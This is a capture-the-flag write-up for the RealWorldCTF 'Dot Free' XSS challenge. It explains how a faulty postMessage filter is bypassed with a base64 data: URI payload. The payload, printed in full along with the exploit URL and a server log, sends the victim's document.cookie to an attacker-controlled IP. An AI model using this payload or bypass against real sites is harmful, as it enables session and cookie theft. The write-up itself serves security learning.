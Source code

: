 # Dot Free

This was another interesting challenge in the RealWorldCTF

```
All the IP addresses and domain names have dots, but can you hack without dot?  
  
[http://13.57.104.34/](http://13.57.104.34/)
```

Opening it up, we are presented with a simple page which takes a URL and submits it. Opening a non existent page, we are presented with this error

![lol](https://i.imgur.com/ATjYVSt.png)

Ah XSSWebsite, so it's probably a XSS challenge. There is probably a bot running on the backend which visits the URL we send.

I tried sending a bunch of domains pointing to my servers but I never received a request, so it probably only visits the it's own url. 

Our aim is to find an XSS and probably get the bot's cookie (or some header).

We find this interesting shit in the source of index.html

```js
function lls(src) {
        var el = document.createElement('script');
        if (el) {
            el.setAttribute('type', 'text/javascript');
            el.src = src;
            document.body.appendChild(el);
        }
    };
    function lce(doc, def, parent) {
        var el = null;
        if (typeof doc.createElementNS != "undefined") el = doc.createElementNS("http://www.w3.org/1999/xhtml", def[0]);
        else if (typeof doc.createElement != "undefined") el = doc.createElement(def[0]);
        if (!el) return false;
        for (var i = 1; i < def.length; i++) el.setAttribute(def[i++], def[i]);
        if (parent) parent.appendChild(el);
        return el;
    };
    window.addEventListener('message', function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
    }, false);
    window.onload = function (ev) {
        postMessage(JSON.parse(decodeURIComponent(location.search.substr(1))), '*')
    }
   ```


So this will basically take our data right after the first "?" in the URL, parse it as a JSON object and do some validation checks on it and if it passes all of them, then it will append it to the DOM as a source of a iframe.

Let's look at the checks:

```
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object'))
  ```
 This doesn't look hard at all.          

So we can't have `//` and `.` in our value. I knew we can use data:// URI in a iframe source and it executes in the context of the current domain and since we can do like:
```
data:text/html;base64,<base64 data>
```
It doesn't require `//` or `.` . The final check is somewhat troll: `typeof(e.data.iframe != 'object')`. 

It should've been:
```
typeof(e.data.iframe) != 'object'
```

So our final payload is like 

```
{"iframe":{"value":"data:text/html;base64,dmFyIHAgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsgcC5vcGVuKCdHRVQnLCdodHRwOi8vMTk5LjI0Ny4yOC45MS9sb2wucGhwPz0nK2RvY3VtZW50LmNvb2tpZSk7IHAuc2VuZCgpOw=="}}
```

The base64 simply decodes to 

```
var p = new XMLHttpRequest(); p.open('GET','http://199.247.28.91/lol.php?='+document.cookie); p.send();
```

Which sends the cookie to our server. Our final link becomes
```
http://13.57.104.34/?{"iframe":{"value":"data:text/html;base64,dmFyIHAgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsgcC5vcGVuKCdHRVQnLCdodHRwOi8vMTk5LjI0Ny4yOC45MS9sb2wucGhwPz0nK2RvY3VtZW50LmNvb2tpZSk7IHAuc2VuZCgpOw=="}}
```

Sending that to the bot, we receive the flag on our server :)

```
13.57.104.34 - - [30/Jul/2018:08:38:48 +0000] "GET /lol.php?=flag=rwctf%7BL00kI5TheFlo9%7D HTTP/1.1" 200 235 "http://127.0.0.1/?%7B%22iframe%22:%7B%22value%22:%22data:text/html;base64,dmFyIHAgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsgcC5vcGVuKCdHRVQnLCdodHRwOi8vMTk5LjI0Ny4yOC45MS9sb2wucGhwPz0nK2RvY3VtZW50LmNvb2tpZSk7IHAuc2VuZCgpOw==%22%7D%7D" "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
```

The flag is `rwctf{L00kI5TheFlo9}`
